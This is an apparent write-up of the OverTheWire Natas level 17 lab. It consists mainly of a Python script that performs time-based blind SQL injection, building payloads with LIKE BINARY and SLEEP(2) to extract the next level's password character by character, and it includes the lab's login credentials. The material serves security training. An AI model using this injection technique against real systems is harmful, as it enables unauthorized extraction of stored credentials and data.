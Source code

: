 ![source code](./pictures/level17/sourcecode.png)

I wrote a python script to run the attack.

```python
import requests
import time

words = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz1234567890"

username = "natas17"
password = "EqjHJbo7LFNb8vwhHb9s75hokh5TF0OC"
url = "http://natas17.natas.labs.overthewire.org/"
natas18_pw = ""

n = 0
session = requests.session()
while True:
    for ch in words:
        n += 1
        temp_pw = natas18_pw + ch
        print(f"Try {n} times: {temp_pw}")

        startTime = time.time()

        payload = f'natas18" AND password LIKE BINARY "' + temp_pw + '%" AND SLEEP(2) #'
        response = session.post(
            url, data={"username": payload}, auth=(username, password)
        )

        endTime = time.time()

        if endTime - startTime > 2:
            natas18_pw = temp_pw
            break

```